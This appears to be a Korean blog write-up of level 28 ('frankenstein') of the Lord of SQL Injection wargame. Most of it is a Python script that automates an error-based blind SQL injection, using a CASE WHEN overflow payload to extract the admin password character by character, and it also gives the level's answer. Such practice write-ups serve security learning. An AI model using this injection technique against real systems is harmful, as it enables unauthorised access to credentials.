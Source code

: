 ```yaml
---
title: LOS - 28번 frankenstein
category: [Wargame, Lord of SQL Injection]
---
```


# [28] frankenstein

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FTO6uD%2FbtroQcD0xeH%2FVEz0pKlYKuQykNPh1pftgK%2Fimg.png">

## 풀이

**LoS 28번 Python 자동화 코드**이다.
```python
import requests

url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php"
cookie = {"PHPSESSID":"2evml88c628kabc2j1vfk63ks9"}

print("🖤 Start SQLi...")

ans = ""
end = False

for i in range(1, 100):
    if(end==True):
        print(f">> There's No Letter {i}")
        break
    end = True
    print(f"🖤 Checking letter {i}...")
    for asc in range(48, 127):
        search = ans+chr(asc)
        payload = f"?pw=' || CASE WHEN id='admin' and pw like '{search}%25' THEN 0xFFFFFFFFFFFFFF*0xFFFFFFFFFFFFFF ELSE 0 END %23"
        res = requests.get(url+payload, cookies=cookie)
        if("login_chk" in res.text):
            continue
        elif("error" in res.text):
            print(f">> Letter {i} → {chr(asc)}")
            ans+=chr(asc)
            end = False
            break

print(f"🖤 Answer : {ans}")
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fo9RVC%2FbtroQHcGsn6%2FR3hxUf6mnpVomVdHZmykK1%2Fimg.png">

그런데 여기서 끝이 아니었다.

자동화 공격 결과 분명 답은 숫자와 알파벳 **대문자**의 조합으로 나왔건만...

아무리 넣어봐도 안 풀렸다.

도저히 이유를 모르겠어서 다른 블로그 글을 찾아봤더니 답은 `0dc4efbb` 였다.

왜 아스키로 검색했는데 대소문자가 반대로 나오는지...

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FFN907%2FbtroSuwFci1%2FkHtw4XM9KJHFkbEZAOHw6K%2Fimg.png">